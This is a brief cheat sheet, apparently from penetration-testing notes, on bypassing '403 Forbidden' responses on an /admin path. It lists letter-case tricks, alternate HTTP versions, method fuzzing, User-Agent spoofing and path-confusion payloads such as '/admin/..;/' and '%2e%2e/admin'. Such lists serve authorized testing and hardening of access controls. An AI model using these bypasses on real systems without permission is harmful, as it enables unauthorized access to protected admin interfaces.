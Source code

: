 
# Authorization Bypass
##  Change the Letter Case

❌ /admin → 403 Forbidden

✅ /AdMiN → 200 OK

This trick works especially well in older or misconfigured Linux-based systems or with poorly written route matchers.

## Alternate HTTP Versions
For example:

HTTP/1.1 – Standard
HTTP/1.0 – May skip Host header enforcement
HTTP/0.9 – Legacy
HTTP/2 or HTTP/3 – Can expose flawed protocol handlers

❌ /admin with HTTP/1.1 → 403

✅ /admin with HTTP/1.0 → 200
## HTTP Method Fuzzing

❌ GET /admin → 403

❌ POST /admin → 403

✅ PATCH /admin → 200

## User-Agent Fuzzing
Some systems implement User-Agent based access control, especially for internal services, admin panels, or bots.

By spoofing the User-Agent, you can pretend to be:
* A search engine bot
* An internal scanner
* A developer tool

##  Path Fuzzing (Path Traversal Confusion)
### Common tricks:
```
/admin/..;/

/./admin/

//admin//

/admin?

%2e%2e/admin (Encoded ../)
```
